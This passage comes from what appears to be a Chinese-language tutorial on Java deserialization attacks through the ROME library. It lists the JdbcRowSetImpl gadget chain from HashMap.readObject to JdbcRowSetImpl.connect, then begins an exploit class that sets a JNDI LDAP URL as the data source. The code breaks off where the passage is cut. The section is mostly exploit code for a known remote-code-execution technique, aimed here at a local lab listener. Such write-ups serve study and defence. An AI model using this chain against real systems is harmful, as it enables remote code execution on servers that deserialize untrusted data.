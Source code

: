 [![](assets/1705886615-f673d0d9fb9139416604bdd9a9e06b48.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120124932-4d8eaa46-b74f-1.png)

然后来到了 ToStringBean 类的 toString 方法，获取\_beanClass 的所有 get 方法并调用，和前面的链一致

## 8\. JdbcRowSetImpl 利用链

### 利用链

```plain
JdbcRowSetImpl.connect()
JdbcRowSetImpl.getDatabaseMetaData()
ToStringBean.toString(String)
ToStringBean.toString()
EqualsBean.beanHashCode()
EqualsBean.hashCode()
ObjetBean.hashCode()
HashMap<K,V>.hash(Object)
HashMap<K,V>.readObject(ObjectInputStream)
```

### EXP

```plain
package RomeSec;

import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.sql.rowset.BaseRowSet;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

public class JdbcRowExp {
    public static void main(String[] args) throws Exception{
        // ldap url
        String url = "ldap://127.0.0.1:1389/nils4f";

        // 创建JdbcRowSetImpl对象
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        Field dataSource = BaseRowSet.class.getDeclaredField("dataSource");
        dataSource.setAccessible(true);
        dataSource.set(jdbcRowSet, url);

```